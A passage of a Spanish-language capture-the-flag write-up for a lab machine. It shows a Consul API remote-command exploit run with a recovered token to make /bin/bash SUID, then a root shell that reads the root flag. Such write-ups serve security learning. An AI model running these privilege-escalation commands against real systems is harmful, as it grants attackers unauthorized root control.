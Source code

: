 ```null
searchsploit consul
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Hashicorp Consul - Remote Command Execution via Rexec (Metasploit)                                                                                                            | linux/remote/46073.rb
Hashicorp Consul - Remote Command Execution via Services API (Metasploit)                                                                                                     | linux/remote/46074.rb
Hassan Consulting Shopping Cart 1.18 - Directory Traversal                                                                                                                    | cgi/remote/20281.txt
Hassan Consulting Shopping Cart 1.23 - Arbitrary Command Execution                                                                                                            | cgi/remote/21104.pl
PHPLeague 0.81 - '/consult/miniseul.php?cheminmini' Remote File Inclusion                                                                                                     | php/webapps/28864.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Para no usar Metasploit, busco una alternativa en Github. Encuentro este [script](https://github.com/owalid/consul-rce) que abusa de la API para ejecutar comandos

Com el servicio de consul lo está ejecutando root, me puedo convertir en este usuario

```null
developer@ambassador:/opt/my-app/env$ ps -faux | grep consul
root        1094  0.3  3.7 794548 75892 ?        Ssl  09:13   0:28 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl
```

Ejecuto el exploit en la máquina víctima y le paso como token el que se borró de MySQL

```null
developer@ambassador:/tmp$ python3 consul_rce.py -th 127.0.0.1 -tp 8500 -c 'chmod u+s /bin/bash' -ct bb03b43b-1d81-d62b-24b5-39540ee469b5
[+] Check vzzjfgldlobkyir created successfully

[+] Check vzzjfgldlobkyir deregistered successfully
```

Ahora la bash es SUID y puedo ejecutar comandos como el propietario que es root

```null
developer@ambassador:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Puedo ver la segunda flag

```null
developer@ambassador:/tmp$ bash -p
bash-5.0# cat /root/root.txt
cc7ce9218ebc3a06e78e5e51fcd5ba82
```